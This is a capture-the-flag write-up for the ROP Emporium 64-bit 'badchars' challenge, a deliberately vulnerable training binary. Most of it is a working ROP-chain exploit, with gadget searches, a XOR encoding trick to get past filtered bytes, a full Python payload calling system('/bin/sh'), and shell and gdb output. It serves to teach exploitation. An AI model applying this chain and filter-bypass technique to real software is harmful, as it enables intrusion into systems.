


#ROP Emporium - 64bit - badchars
https://ropemporium.com/challenge/badchars.html

Challenge Description
Description for badchars on ropemporium:
An arbitrary write challenge with a twist; certain input characters get mangled before finding their way onto the stack. Find a way to deal with this and craft your exploit.
Like write4, we have to write a string to memory. The difference is that this time, there's bad character filtering which is preventing us from writing /bin/sh to memory.
What are the bad characters?
You can find the bad characters by running the binary.
root@city64:~/ctf/ropemporium/badchars# ./badchars
badchars by ROP Emporium
64bits
badchars are: b i c / <space> f n s
> hey
Exiting
As printed, the bad characters are - b i c / <space> f n s.
I retrieved the hex value of each of the characters from here - https://www.rapidtables.com/convert/number/ascii-to-hex.html

The hex values of the bad characters are:
62 69 63 2f 20 66 6e 73
Or as 1 string:
6269632f20666e73
*Extra Note About Bad Characters
One thing to note about bad characters is that they apply to every single address in your ROP chain/exploit, not just your string.
The memory address you write to can't contain any bad characters, the memory addresses of ROP gadgets can't contain any bad characters, your hex format of the strings you're writing can't contain any bad characters. There musn't be any bad characters throughout the whole of your code.
badchars Solution
This solution to badchars is the same as the previous challenges.
We have to write a string memory, pop it into RDI and run system().
To do all this, we need to find:
• a mov [?] ?; ret instruction to move a value from a register into memory
• a pop ?; pop ?; ret instruction to pop values into registers
• a writable region of memory to write to
• a pop rdi; ret instruction to set up parameters for system() call
• the address of system()
1) Find a mov gadget
First, find a mov instruction that writes to a memory address.
I'm using ropper, as suggested in the challenge description on ropemporium.com, because it can filter out bad characters.
[%] will find mov instructions that move data to addresses pointed to by the register.
e.g. mov [r13] will move data into the address pointed to by r13.
root@city64:~/ctf/ropemporium/badchars# ropper --file badchars --badbytes 6269632f20666e73 --search "mov [%]"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] filtering badbytes... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: mov [%]
[INFO] File: badchars
0x0000000000400b35: mov dword ptr [rbp], esp; ret;
0x0000000000400b34: mov qword ptr [r13], r12; ret;
mov qword ptr [r13], r12; ret; at 0x00400b34 looks good, providing we find a pop gadget that lets us pop values into r12 and r13.
2) Find a pop gadget
root@city64:~/ctf/ropemporium/badchars# ropper --file badchars --badbytes 6269632f20666e73 --search "pop r12"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] filtering badbytes... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop r12
[INFO] File: badchars
0x0000000000400bac: pop r12; pop r13; pop r14; pop r15; ret;
0x0000000000400b3b: pop r12; pop r13; ret;
Perfect.
pop r12; pop r13; ret; at 0x00400b3b: is exactly what we need.
3) Find a writable region of memory to write to
Check the sections of the badchars binary using rabin2 to find a suitable address to write to.
root@city64:~/ctf/ropemporium/badchars# rabin2 -S badchars
[Sections]
Nm Paddr Size Vaddr Memsz Perms Name
00 0x00000000 0 0x00000000 0 ----
01 0x00000238 28 0x00400238 28 -r-- .interp
...
19 0x00000e10 8 0x00600e10 8 -rw- .init_array
20 0x00000e18 8 0x00600e18 8 -rw- .fini_array
21 0x00000e20 8 0x00600e20 8 -rw- .jcr
22 0x00000e28 464 0x00600e28 464 -rw- .dynamic
23 0x00000ff8 8 0x00600ff8 8 -rw- .got
24 0x00001000 112 0x00601000 112 -rw- .got.plt
25 0x00001070 16 0x00601070 16 -rw- .data
26 0x00001080 0 0x00601080 48 -rw- .bss
...
At first I used .data - 0x00601070 - but later on this address will cause bad characters to appear.
After I realised this, I used .bss - 0x00601080 - instead.
4) Find a pop rdi gadget
We need a pop rdi; ret gadget so that we can set up the parameters for system()
root@city64:~/ctf/ropemporium/badchars# ropper --file badchars --badbytes 6269632f20666e73 --search "pop rdi"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] filtering badbytes... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdi
[INFO] File: badchars
0x0000000000400b39: pop rdi; ret;
The 1 gadget found is fine, located at 0x00400b39.
5) Find the address of system()
Lastly, we need the address of system() so that we can call it.
root@city64:~/ctf/ropemporium/badchars# rabin2 -i badchars
[Imports]
Num Vaddr Bind Type Name
1 0x004006d0 GLOBAL FUNC free
2 0x004006e0 GLOBAL FUNC puts
3 0x004006f0 GLOBAL FUNC system
4 0x00400700 GLOBAL FUNC printf
5 0x00400710 GLOBAL FUNC memset
6 0x00400720 GLOBAL FUNC __libc_start_main
7 0x00400730 GLOBAL FUNC fgets
8 0x00000000 WEAK NOTYPE __gmon_start__
9 0x00400740 GLOBAL FUNC memcpy
10 0x00400750 GLOBAL FUNC malloc
11 0x00400760 GLOBAL FUNC setvbuf
12 0x00400770 GLOBAL FUNC exit
8 0x00000000 WEAK NOTYPE __gmon_start__
system() is at 0x004006f0.
6) Write exploit script
At this point we have everything we need to write our exploit and hit the bad characters error.
import struct
# --------- GADGETS ---------
pop_r12_pop_r13_ret = struct.pack('<Q', 0x00400b3b) # pop r12; pop r13; ret;
bss_addr = struct.pack('<Q', 0x00601080) # .bss - 16 bytes of writable memory
mov_r12_into_r13_ret = struct.pack('<Q', 0x00400b34) # mov qword ptr [r13], r12; ret;
# move value in r12 into memory address pointed to by r13
pop_rdi_ret = struct.pack('<Q', 0x00400b39) # pop rdi; ret
system_plt_addr = struct.pack('<Q', 0x004006f0) # rabin2 -i badchars
# --------- EXPLOIT ---------
payload = "A"*40 # offset to RIP @ 40 bytes
# ROP start - Prep to write "/bin/sh\x00" to memory
payload += pop_r12_pop_r13_ret # overwrite RIP
payload += "/bin/sh\x00" # pop "/bin/sh" into R12
payload += bss_addr # pop .bss address into R13
# ret 1 - Write "/bin/sh\x00" to memory
payload += mov_r12_into_r13_ret # write string to .bss address
# ret 2 - Prep parameters for system()
payload += pop_rdi_ret # prep to run system()
payload += bss_addr # pop "/bin/sh" into RDI
# ret 3 - Run system()
payload += "B"*5
#payload += system_plt_addr # run system("/bin/sh")
print payload
Our /bin/sh\x00 string, which will spawn a shell for us using system(), will get popped into r12.
However, if you run the binary in gdb and observe the registers at the time of the crash, you'll notice that:
/bin/sh\x00 has been filtered to 0x68ebebebebebeb
68 is h in ASCII. h is the only character in our /bin/sh string that isn't a bad character.
All of the bad characters in /bin/sh have been replaced with eb.
We need to find a way around this bad character filtering.
How to bypass bad character filtering?
If you disassemble the binary and check the usefulGadgets function, you'll find a xor instruction.
root@city64:~/ctf/ropemporium/badchars# objdump -M intel -d badchars
badchars: file format elf64-x86-64
...
0000000000400b30 <usefulGadgets>:
400b30: 45 30 37 xor BYTE PTR [r15],r14b
400b33: c3 ret
400b34: 4d 89 65 00 mov QWORD PTR [r13+0x0],r12
400b38: c3 ret
400b39: 5f pop rdi
400b3a: c3 ret
400b3b: 41 5c pop r12
400b3d: 41 5d pop r13
400b3f: c3 ret
400b40: 41 5e pop r14
400b42: 41 5f pop r15
400b44: c3 ret
400b45: 66 2e 0f 1f 84 00 00 nop WORD PTR cs:[rax+rax*1+0x0]
400b4c: 00 00 00
400b4f: 90 nop
...
This xor instruction can be used for encryption and decryption of bytes, and is how we can bypass the bad character filtering.
We'll do it by writing a xor encrypted version of /bin/sh\x00, a version where there are no bad characters present, to memory. We'll then decrypt the /bin/sh\x00 string after it's been through the bad character filter. We pop our decrypted /bin/sh\x00 string into RDI and run system(), which will spawn a shell.
The xor gadget is located at 0x400b30 (as seen in the output above).
xor [r15],r14b will xor the bytes pointed to by r15 using the key provided in r14.
7) Prep for xor decryption
For the xor decryption part of the exploit, we need to find:
• a pop r14; pop r15; ret gadget to prep the registers for xor decryption
• an encrypted version of /bin/sh\x00 that has no bad characters present
7a) Find a pop r14; pop r15 gadget
Use ropper again, like we've done before.
root@city64:~/ctf/ropemporium/badchars# ropper --file badchars --badbytes 6269632f20666e73 --search "pop r14"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] filtering badbytes... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop r14
[INFO] File: badchars
0x0000000000400b40: pop r14; pop r15; ret;
7b) Find a suitable xor encrypted version of /bin/sh
bin/sh\x00 in hex is 2f62696e2f736800.
I used this site to convert the string to hex - https://www.rapidtables.com/convert/number/ascii-to-hex.html
And I'm using this site to calculate encrypted /bin/sh values - http://xor.pw/
• /bin/sh\x00 xor encrypted with a key of 01 is 2e63686f2e726901
◇ This won't work because the result contains a bad character of 63
• /bin/sh\x00 xor encrypted with a key of 02 is 2d606b6c2d716a02
◇ This is perfect because the resulting string doesn't contain any bad characters
8) Write Final Exploit
We have everything we need to write a string to memory, decrypt it, and run system().
Plan
• ROP start - overflow buffer and prep registers to write /bin/sh to memory
• Part 1 - write /bin/sh to memory
• Part 2 - xor decrypt the /bin/sh string in memory
• Part 3 - prep parameters for system()
• Part 4 - run system() and get a shell!
Explanation
Our encrypted string needs to be in big endian format (i.e. in reverse, so that it's read by the system properly)
enc_binsh_string = struct.pack('>Q', 0x2d606b6c2d716a02)
Our string gets decrypted 1 byte at a time, so we have to loop through the string 8 times, specifying the next byte in the sequence each time, in order to decrypt it.
for i in range(8): # loop 8 times for 8 bytes (from 0 to 7)
payload += pop_r14_r15_ret # prep parameters for xor decryption
payload += xor_key # pop xor key into r14
payload += p64(0x00601080 + i) # pop address of string (.bss) + byte to decrypt (i) into R15
payload += xor_r14_r15_ret # run xor decryption on byte
You'll have to bear in mind with p64(0x00601080 + i), if you hit a bad character then your exploit will fail.
For example, if you used the .data address (found eariler) to write your string to - 0x0601070 - when decrypting the 4th byte you'll create a bad character - 0x0601070 + 3 = 0x0601073 - 73 is a bad character. This will cause your whole exploit to fail as this 4th byte won't get decrypted. This stumped me for a while when doing this challenge.
Final Script
import struct
from pwn import *
# --------- GADGETS ---------
# ROP start
pop_r12_pop_r13_ret = struct.pack('<Q', 0x00400b3b) # pop r12; pop r13; ret;
enc_binsh_string = struct.pack('>Q', 0x2d606b6c2d716a02) # xor encrypted "/bin/sh\x00" with key of "02" - BIG ENDIAN FORMAT
bss_addr = struct.pack('<Q', 0x00601080) # .bss - 48 bytes of writable memory
# part 1 gadgets
mov_r12_into_r13_ret = struct.pack('<Q', 0x00400b34) # mov qword ptr [r13], r12; ret;
# move value in r12 into memory address pointed to by r13
# part 2 gadgets
pop_r14_r15_ret = struct.pack('<Q', 0x00400b40) # pop r14; pop r15; ret;
xor_r14_r15_ret = struct.pack('<Q', 0x00400b30) # xor byte ptr [r15], r14b; ret;
xor_key = struct.pack('<Q', 0x02)
# part 3 gadgets
pop_rdi_ret = struct.pack('<Q', 0x00400b39) # pop rdi; ret
# part 4 gadgets
system_plt_addr = struct.pack('<Q', 0x004006f0) # rabin2 -i badchars
# --------- EXPLOIT ---------
payload = "A"*40 # offset to RIP @ 40 bytes
# ROP start - Prep to write "/bin/sh\x00" to memory
payload += pop_r12_pop_r13_ret # overwrite RIP
payload += enc_binsh_string # pop encrypted "/bin/sh\x00" into R12
payload += bss_addr # pop .bss address into R13
# part 1 - Write "/bin/sh\x00" to memory
payload += mov_r12_into_r13_ret # write string to .bss address
# part 2 - xor decrypt string byte by byte
for i in range(8): # loop 8 times for 8 bytes (from 0 to 7)
payload += pop_r14_r15_ret # prep parameters for xor decryption
payload += xor_key # pop xor key into r14
payload += p64(0x00601080 + i) # pop address of byte to decrypt (.bss) into R15 (i specifies the byte)
payload += xor_r14_r15_ret # run xor decryption on byte
# part 3 - Prep parameters for system()
payload += pop_rdi_ret # prep to run system()
payload += bss_addr # pop "/bin/sh" into RDI
# part 4 - Run system()
#payload += "B"*5
payload += system_plt_addr # run system("/bin/sh")
print payload
9) Win!
root@city64:~/ctf/ropemporium/badchars# (python badpwn.py; cat) | ./badchars
badchars by ROP Emporium
64bits
badchars are: b i c / <space> f n s
> id
uid=0(root) gid=0(root) groups=0(root)
cat flag.txt
ROPE{a_placeholder_32byte_flag!}
exit
exit
Segmentation fault
Bonus - Testing the Exploit
If you return to 5 Bs instead of the system_plt_addr,
# part 4 - Run system()
payload += "B"*5
#payload += system_plt_addr # run system("/bin/sh")
you'll crash the program and be able to read the register contents at the end of your exploit in gdb.
Output the modified exploit to a text file so that you can run it with gdb.
root@city64:~/ctf/ropemporium/badchars# python badpwn.py > pwn.txt
And look at the registers at the time of the crash.
gdb-peda$ r < pwn.txt
Starting program: /root/ctf/ropemporium/badchars/badchars < pwn.txt
badchars by ROP Emporium
64bits
badchars are: b i c / <space> f n s
>
Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
RAX: 0x0
RBX: 0x0
RCX: 0x602010 --> 0x0
RDX: 0x0
RSI: 0x1
RDI: 0x601080 --> 0x68732f6e69622f ('/bin/sh')
RBP: 0x4141414141414141 ('AAAAAAAA')
RSP: 0x7fffffffe280 --> 0x7fffffffe636 ("DESKTOP_SESSION=gnome")
RIP: 0xa4242424242 ('BBBBB\n')
R8 : 0x1ff
R9 : 0x602260 --> 0x0
R10: 0x0
R11: 0x7ffff7e74be0 (<__GI___libc_free>: push rbx)
R12: 0x26a712d6c6b602d
R13: 0x601080 --> 0x68732f6e69622f ('/bin/sh')
R14: 0x2
R15: 0x601087 --> 0x0
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0xa4242424242
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffe280 --> 0x7fffffffe636 ("DESKTOP_SESSION=gnome")
0008| 0x7fffffffe288 --> 0x7fffffffe64c ("SSH_AGENT_PID=943")
0016| 0x7fffffffe290 --> 0x7fffffffe65e ("GTK_MODULES=gail:atk-bridge")
0024| 0x7fffffffe298 --> 0x7fffffffe67a ("XDG_SEAT=seat0")
0032| 0x7fffffffe2a0 --> 0x7fffffffe689 ("PWD=/root/ctf/ropemporium/badchars")
0040| 0x7fffffffe2a8 --> 0x7fffffffe6ac ("LOGNAME=root")
0048| 0x7fffffffe2b0 --> 0x7fffffffe6b9 ("XDG_SESSION_DESKTOP=gnome")
0056| 0x7fffffffe2b8 --> 0x7fffffffe6d3 ("XDG_SESSION_TYPE=x11")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x00000a4242424242 in ?? ()
You'll see that RDI contains /bin/sh, which is exactly what we need for system() to run system("/bin/sh") and spawn a shell.
I've found that crashing the binary just before your system() is good way of testing/debugging what might be going wrong with your exploit. If you don't reach the sytstem() call, something has gone wrong earlier. If you do reach the system() call but no shell is spawned, then you can look at RDI register to see if it contains the correct value or not.